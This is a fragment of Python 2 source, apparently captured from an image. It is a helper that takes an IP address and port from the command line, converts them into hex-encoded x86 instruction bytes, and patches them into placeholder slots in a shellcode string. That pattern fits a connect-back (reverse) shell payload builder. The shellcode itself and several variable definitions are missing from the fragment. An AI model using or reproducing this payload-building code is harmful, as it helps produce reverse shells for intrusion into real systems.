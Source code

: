 ```
first_ip_asm = "\\xc6\\x44\\x24\\x03\\x[1]"     # movb   $0x1,0x3(%esp) (1)

if len(sys.argv) != 3:
    print 'Usage: ' + sys.argv[0] + ' <ip> <port>'
    sys.exit()

ip = sys.argv[1]
port = sys.argv[2]
print "Chosen ip: %s" % ip
print "Chosen port: %s" % port
ip_chunks = []

try:
    socket.inet_aton(ip)
    ip_chunks = ip.split(".")
    if len(ip_chunks) < 4:
        print "Although IP appears legal, we are assuming 4 chunks (i.e 127.0.0.1)"
        sys.exit()
except socket.error:
    print "IP does not appear to be legal"
    sys.exit()

int_port = int(port)
if int_port > 65535:
    print "Port choice is greater than max value (65535)"
    sys.exit()

ip_hex_1 = hex(int(ip_chunks[0]))
ip_hex_2 = hex(int(ip_chunks[1]))
ip_hex_3 = hex(int(ip_chunks[2]))
ip_hex_4 = hex(int(ip_chunks[3]))

ip_hex_1 = ip_hex_1.replace("0x", "")
ip_hex_2 = ip_hex_2.replace("0x", "")
ip_hex_3 = ip_hex_3.replace("0x", "")
ip_hex_4 = ip_hex_4.replace("0x", "")

first_ip_asm = first_ip_asm.replace("[1]", ip_hex_1)
second_ip_asm = second_ip_asm.replace("[2]", ip_hex_2)
third_ip_asm = third_ip_asm.replace("[3]", ip_hex_3)
fourth_ip_asm = fourth_ip_asm.replace("[4]", ip_hex_4)

print first_ip_asm
print second_ip_asm
print third_ip_asm
print fourth_ip_asm

htons_port_val = socket.htons(int_port)
hex_port_value = hex(htons_port_val)

cleaned_hex_port = hex_port_value.replace("0x", "")
first_port_val = "\\x" + cleaned_hex_port[:2]
second_port_val = "\\x" + cleaned_hex_port[2:]

print "1st port: %s" % first_port_val
print "2nd port: %s" % second_port_val
print ""

print "Ammending shellcode..."
shellcode = shellcode.replace("[i4]", fourth_ip_asm)
shellcode = shellcode.replace("[i3]", third_ip_asm)
shellcode = shellcode.replace("[i2]", second_ip_asm)
shellcode = shellcode.replace("[i1]", first_ip_asm)
```